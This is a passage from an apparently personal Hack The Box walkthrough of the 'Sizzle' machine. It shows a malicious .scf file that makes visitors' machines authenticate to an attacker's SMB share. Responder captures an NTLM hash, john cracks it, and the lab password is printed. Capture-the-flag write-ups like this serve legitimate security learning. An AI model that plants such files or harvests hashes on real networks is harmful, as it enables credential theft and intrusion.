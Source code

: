 ![](/images/hackthebox/sizzle/11.png)
```
[Shell]
Command=2
IconFile=\\10.10.xx.xx\share\rick.ico
[Taskbar]
Command=ToggleDesktop
```
<br> Then we will run `responder`. Whenever a user browses that directory he will automatically try to connect to my box through `smb`, that's when `responder` catches the hashes. More info in the link above. 
![](/images/hackthebox/sizzle/12.png)
<br>
<br>
`reponder -I tun0`
![](/images/hackthebox/sizzle/13.png)
<br> `responder` caught hash for a user called `amanda`. Let's crack it with `john` :
![](/images/hackthebox/sizzle/14.png)
<br> The password is `Ashare1972`
<br>
<hr>
## Requesting a Certificate, WinRm Session as amanda
<br> I tried to access `certenroll` as `amanda` and it worked fine :